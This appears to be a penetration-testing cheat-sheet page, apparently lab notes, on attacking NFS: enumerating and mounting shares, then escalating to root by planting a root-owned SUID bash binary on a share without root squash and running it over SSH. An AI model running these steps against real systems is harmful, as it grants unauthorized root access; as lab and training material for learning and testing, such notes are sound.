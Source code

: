 ```yaml
---
layout: post
title: "nfs"
keywords: "network file system"
---
```


By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

### Enumeration
```
2049/tcp open nfs syn-ack ttl 63
```

### List NFS shares
```
showmount -e $IP
```

### Mount NFS
```
mkdir /tmp/mount
sudo mount -t nfs $IP:<SHARE> /tmp/mount/ -nolock
ls -al /tmp/mount
```

### Misconfigured Root Squash
```
NFS Access
-> Gain Low Privilege Shell
--> Upload Bash Executable to the NFS share
---> Set SUID Permissions Through NFS
----> Login through SSH
-----> Execute SUID Bit Bash Executable
------> ROOT ACCESS
```
```
cd /tmp/mount
cp ~/Labs/thm/networkservices2/bash .
sudo chown root bash
sudo chmod +s bash
ssh -i id_rsa <USER>@$IP
./bash -p
```